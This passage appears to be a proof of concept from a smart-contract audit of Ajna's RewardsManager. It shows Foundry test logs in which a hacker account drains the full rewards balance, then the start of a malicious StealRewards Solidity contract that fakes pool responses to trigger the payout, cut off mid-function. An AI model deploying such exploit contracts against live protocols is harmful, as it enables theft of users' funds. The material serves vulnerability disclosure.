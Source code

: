 ```bash
$ forge test  -m testStealRewards -vv

Running 1 test for tests/forge/unit/Rewards/StealRewards.t.sol:StealRewardsTest
[PASS] testStealRewards() (gas: 494833)
Logs:
  Rewards balance before: 100000000000000000000000000
  Hacker balance before : 0
  Rewards balance after : 0
  Hacker balance after  : 100000000000000000000000000

Test result: ok. 1 passed; 0 failed; finished in 6.57s
```

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity 0.8.14;

import 'src/RewardsManager.sol';
import 'src/PositionManager.sol';

import '@std/Test.sol';
import '@std/Vm.sol';

contract StealRewards {
    ERC20 ajnaToken;
    IRewardsManager rewardsManager;

    uint256 _currentBurnEpoch;
    uint256 toSteal;

    constructor(ERC20 _ajnaToken, IRewardsManager _rewardsManager) {
        ajnaToken = _ajnaToken;
        rewardsManager = _rewardsManager;
    }

    function currentBurnEpoch() external view returns (uint256) {
        return _currentBurnEpoch;
    }

    function bucketExchangeRate(uint) external view returns (uint256) {
        return 1 ether + _currentBurnEpoch;
    }

    function burnInfo(uint256 index) external view returns (uint256 burnBlock_, uint256 totalInterest_, uint256 totalBurned_) {
        if (index == 1) {
            return (block.timestamp + 2 weeks, 0, 0);
        } else {
            return (block.timestamp + 2 weeks, 1, toSteal * 20);
        }
    }

    function bucketInfo(uint256) external pure returns (
        uint256 lpAccumulator_,
        uint256 availableCollateral_,
        uint256 bankruptcyTime_,
        uint256 bucketDeposit_,
        uint256 bucketScale_
    ) {
        return (0, 0, 0, 1 ether, 0);
    }

    function steal() external {
        toSteal = ajnaToken.balanceOf(address(rewardsManager));
```